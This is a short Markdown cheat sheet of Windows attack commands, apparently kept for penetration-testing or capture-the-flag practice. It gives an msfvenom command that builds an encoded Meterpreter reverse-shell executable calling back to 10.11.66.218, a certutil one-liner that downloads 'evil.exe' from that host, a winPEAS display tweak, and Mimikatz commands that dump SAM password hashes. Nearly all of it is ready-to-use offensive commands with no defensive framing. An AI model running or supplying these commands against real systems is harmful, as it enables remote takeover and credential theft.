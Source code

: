 # Windows Cheat Sheet

- [Windows Cheat Sheet](#windows-cheat-sheet)
  - [Generate a revshell](#generate-a-revshell)
  - [Upload a file](#upload-a-file)
  - [Add color to winPEAS](#add-color-to-winpeas)
  - [MIMIKATZ](#mimikatz)
    - [Commands](#commands)

## Generate a revshell
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.66.218 LPORT=1234 -f exe -o exp.exe
```

## Upload a file
```bash
certutil.exe -urlcache -split -f http://10.11.66.218:9999/evil.exe C:\\Temp\\evil.exe
```

## Add color to winPEAS
```bash
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

## MIMIKATZ
Upload `mimikatz`

### Commands
```
privilege::debug
lsadump::sam
```